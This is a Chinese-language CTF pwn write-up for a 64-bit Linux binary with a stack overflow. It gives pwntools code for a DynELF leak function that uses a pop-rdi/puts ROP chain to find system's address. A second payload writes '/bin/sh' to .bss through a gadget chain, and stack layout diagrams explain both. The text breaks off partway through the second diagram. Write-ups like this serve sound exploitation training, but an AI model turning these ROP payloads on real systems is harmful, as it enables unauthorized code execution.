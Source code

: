 **本题应该与pwn200一起比较**

方法一、根据writeup第一条参考分析而来

本题是64位linux下的二进制程序，无cookie，也存在很明显的栈溢出漏洞，且可以循环泄露，符合我们使用DynELF的条件，但和pwn100相比，存在两处差异：

1）64位linux下的函数需要通过rop链将参数传入寄存器，而不是依靠栈布局；

2）puts函数与write函数不同，不能指定输出字符串的长度。

**第一次利用DynELF泄漏system函数地址的payload**：
```python
def leak(address): 
    payload = "A" * 72 + p64(poprdiAddress) + p64(address) + p64(putsPLT) + p64(startAddress) 
    payload = payload.ljust(200, "B")
    io.send(payload) 
    io.recvuntil('bye~\n') 
    count = 0 
    data = '' 
    up = "" 
    while True: 
        c = io.recv(numb=1, timeout=0.5) 
        count += 1 
        if up == '\n' and c == "":
            data = data[:-1] 
            data += "\x00" 
            break  
        else: 
            data += c 
        up = c 
    data = data[:8] 
    log.info("%#x => %s" % (address, (data or '').encode('hex'))) 
    return data

d = DynELF(leak,elf=binary) 
systemAddress = d.lookup('__libc_system','libc') 
log.success("SystemAddress:" + hex(systemAddress))
```
其栈结构布局：
```
AAAAAAAA
........
AAAAAAAA 
AAAAAAAA	 			#72字节数据区
pop rdi		 			#sub_40063D函数返回地址
address		 			#rdi=address
putsPLT		 			#puts(address)
startAddress	 			#返回地址
```
**第二次payload(写入/bin/sh)**:
```python
payload = 'A' * 72 + p64(pop_6Address) + p64(0) + p64(1) + p64(readGOT) + p64(8) + p64(bssAddress) + p64(0) 
payload += p64(movAddress) 
payload += '\x00' * 56 
payload += p64(startAddress) 
payload = payload.ljust(0xc8,'A')
io.send(payload) 
io.recvuntil('bye~\n') 
io.send('/bin/sh\x00')
```
其栈结构布局：
```
AAAAAAAA
........
AAAAAAAA 
AAAAAAAA		 		#72字节数据区
```